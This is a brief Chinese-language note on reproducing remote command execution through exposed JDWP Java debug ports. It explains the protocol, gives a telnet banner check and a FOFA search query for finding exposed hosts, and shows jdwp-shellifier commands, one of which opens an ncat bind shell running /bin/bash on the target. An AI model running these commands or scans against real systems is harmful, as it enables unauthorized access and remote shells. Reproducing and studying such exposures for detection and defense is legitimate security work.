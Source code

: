 安全客上看到阿里云团队发布的：JDWPMiner挖矿木马后门简要分析  
遂复现此漏洞

### 原理介绍：

JDWP（Java DEbugger Wire Protocol）：即Java调试线协议，是一个为Java调试而设计的通讯交互协议，它定义了调试器和被调试程序之间传递的信息的格式。说白了就是JVM或者类JVM的虚拟机都支持一种协议，通过该协议，Debugger 端可以和 target VM 通信，可以获取目标 VM的包括类、对象、线程等信息，在调试Android应用程序这一场景中，Debugger一般是指你的 develop machine 的某一支持 JDWP协议的工具例如 Android Studio 或者 JDB，而 Target JVM是指运行在你mobile设备当中的各个App（因为它们都是一个个虚拟机 Dalvik 或者 ART），JDWP Agent一般负责监听某一个端口，当有 Debugger向这一个端口发起请求的时候，Agent 就转发该请求给 target JVM并最终由该 JVM 来处理请求，并把 reply 信息返回给 Debugger 端。

### 简单检测方法：  
```
telnet ip port
```
查看回显，如果出现“JDWP-Handshake”，则证明漏洞存在。如下图  
[image](./pic/1.png)  

### 漏洞复现：
借助工具：https://github.com/IOActive/jdwp-shellifier  
用法：
```
python2 ./jdwp-shellifier.py -t my.target.ip -p 1234
python2 ./jdwp-shellifier.py -t my.target.ip -p 1234 --cmd "ncat -v -l -p 1234 -e /bin/bash"
```
### 目标搜索
fofa上搜索目标
```
banner="jdwp"
```
试了几个都没有漏洞，暂不批量检测了

参考链接：  
https://zhuanlan.zhihu.com/p/147315596  
